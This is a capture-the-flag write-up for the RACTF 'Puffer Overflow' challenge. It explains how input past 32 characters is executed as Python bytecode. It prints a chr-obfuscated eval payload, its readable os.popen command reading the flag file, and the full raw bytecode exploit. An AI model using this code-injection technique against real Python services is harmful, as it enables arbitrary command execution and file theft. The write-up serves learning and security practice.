 # Puffer Overflow

>Let's review the code. 

There's two interesting functions - put_on_stack, which generates some interesting python bytecode to put a value onto the stack, and returns it.

Then, there's execute bytecode. It takes some bytecode, and, well, executes it. How though?

It loads 256 constants - 1,2,3, etc. matching up to 1,2,3,etc. 
As global variables, it loads the functions chr, ord, globals, locals, getattr and setattr. 
We have to use these functions alone to gain RCE. Impossible? No. But lets look into how we can do this.

We input a name. It takes the first 32 bytes of this, and generates some byte code that puts this name onto the stack. 
It then prepends said bytecode to all bytes afterwards, and executes it. 
If we put 0-32 chars, this is fine, but if we input anymore, then from the 33th character onwards is executed as python bytecode!

We must generate python bytecode that utilises the small set of functions and variables we have to gain RCE. My final payload in python code form was globals()[chr(101)+chr(118)+chr(97)+chr(108)](chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)+chr(46)+chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(104)+chr(111)+chr(109)+chr(101)+chr(47)+chr(114)+chr(97)+chr(99)+chr(116)+chr(102)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))

Not very readable, but in normal python code, 
```python
globals()['eval']("__builtins__.__import__('os').popen("cat /home/ractf/flag.txt").read())
```
How can we do this? We can't just go about compiling a .pyc or code using compile() - those files create constants and globals to suit them. We can't do this however, we must only use constants and variables given to us. We can analyse the put_on_stack function, and see what it does

`b"t\x00"` - load the first global, chr. We can replace with \x02 to load the 3rd global, globals
`b"d<number>"` - load constant for argument. When doing globals(), we don't need this.
`b"\x83\x01"` - call current function with 1 argument
`b"\x17\x00"` - binary add. does first value on stack + second value. note it's called binary but it can be used to concatenate strings just like adding numbers bcoz its python at the end of the day

we can use this to generate bytecode to call globals, `b"t\x02\x83\x00"`. Then, we must dynamically construct the word "eval" using only chr via the same methods the put_on_stack function uses. After that, we use the BINARY_SUBSCR opcode, b"\x19\x00", which computes TOP1 = TOP1[TOP2]

Now what? Loaded on the stack is the function eval. Now, using the same method as put_on_stack again, we construct our python payload that cats the flag. Finally, we wrap it all up with a b"\x83\x01" - call the function eval, loaded from globals()['eval'], with one argument.

I ended up doing some enumeration, and finding `flag.txt` in `/home/ractf`, then catting it.

This results in the flag ractf{Puff3rf1sh??}. I will post the final bytecode, my generation script, and the final exploit script below.


Bytecode: 
`
t\x02\x83\x00t\x00de\x83\x01t\x00dv\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00\x19\x00t\x00d_\x83\x01t\x00d_\x83\x01\x17\x00t\x00db\x83\x01\x17\x00t\x00du\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d \x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dh\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dg\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00dx\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dd\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00\x83\x01
`
#### ractf{Puff3rf1sh??}
